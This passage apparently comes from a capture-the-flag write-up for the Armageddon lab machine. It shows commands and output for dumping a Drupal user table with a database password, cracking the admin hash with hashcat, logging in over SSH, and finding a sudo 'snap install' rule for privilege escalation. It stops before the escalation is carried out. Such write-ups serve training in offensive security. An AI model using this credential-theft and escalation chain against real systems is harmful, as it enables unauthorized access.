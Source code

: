 Dump mysql database (drupal.users) and check user info:

- `mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal > dump_table.sql`
- `mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal users > users.sql`

```console
bash-4.2$ cat users.sql | grep brucetherealadmin
INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}');
```

```console
└─╼$ hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```

Login using ssh:

```console
└─╼$ ssh brucetherealadmin@$IP
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ED25519 key fingerprint is SHA256:rMsnEyZLB6x3S3t/2SFrEG1MnMxicQ0sVs9pFhjchIQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ED25519) to the list of known hosts.
brucetherealadmin@10.10.10.233's password:
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[brucetherealadmin@armageddon ~]$ uname -a
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### brucetherealadmin -> root

- enum sudo, [sudo snap exploit](https://gtfobins.github.io/gtfobins/snap/#sudo)

```console
[brucetherealadmin@armageddon shm]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid,
    always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```
